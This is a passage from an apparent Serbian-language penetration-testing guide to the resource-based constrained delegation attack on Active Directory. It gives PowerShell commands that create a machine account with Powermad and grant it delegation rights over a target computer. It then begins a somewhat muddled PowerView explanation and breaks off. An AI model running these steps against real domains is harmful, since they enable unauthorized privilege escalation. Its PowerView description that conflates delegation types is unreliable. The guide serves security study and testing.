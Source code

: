 Da biste proverili _**MachineAccountQuota**_ domena, možete koristiti:

```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```

## Napad

### Kreiranje objekta računara

Možete kreirati objekat računara unutar domena koristeći [powermad](https://github.com/Kevin-Robertson/Powermad)**:**

```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```

### Konfigurisanje ograničene delegacije zasnovane na resursima

**Korišćenje activedirectory PowerShell modula**

```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```

**Korišćenje powerview-a**

Powerview je moćan alat za manipulaciju i istraživanje Active Directory okruženja. Može se koristiti za izvršavanje različitih zadataka, uključujući i manipulaciju ograničenjima delegacije resursa.

Da biste koristili powerview, prvo ga morate učitati u PowerShell sesiju. To možete učiniti pomoću sledeće komande:

```powershell
. .\PowerView.ps1
```

Nakon što je powerview učitan, možete koristiti različite funkcije za manipulaciju ograničenjima delegacije resursa. Na primer, možete koristiti funkciju `Get-DomainUser` da biste dobili informacije o korisnicima u domenu:

```powershell
Get-DomainUser
```

Ova funkcija će vam prikazati listu korisnika u domenu, zajedno sa njihovim atributima kao što su ime, korisničko ime, SID itd.

Da biste pronašli korisnike koji imaju omogućenu delegaciju resursa, možete koristiti funkciju `Get-DomainUser -TrustedToAuth`:
